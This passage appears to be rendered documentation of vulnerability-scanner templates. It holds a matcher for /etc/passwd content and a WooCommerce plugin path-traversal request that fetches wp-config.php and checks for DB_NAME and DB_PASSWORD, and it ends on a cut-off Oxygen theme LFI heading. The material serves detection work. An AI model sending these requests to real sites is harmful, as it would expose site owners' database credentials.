 ### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
- part - body

---

# Product Input Fields for WooCommerce \< 1.2.7 - Unauthenticated File Download

## Description

- WordPress WooCommerce \< 1.2.7 is susceptible to file download vulnerabilities. The lack of authorization checks in the handle_downloads() function hooked to admin_init() could allow unauthenticated users to download arbitrary files from the blog using a path traversal payload.

- severity - high
- tags - wordpress,woocommerce,lfi,wp-plugin,wp

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-admin/admin-post.php?alg_wc_pif_download_file=../../../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Oxygen-Theme - Local File Inclusion

## Description
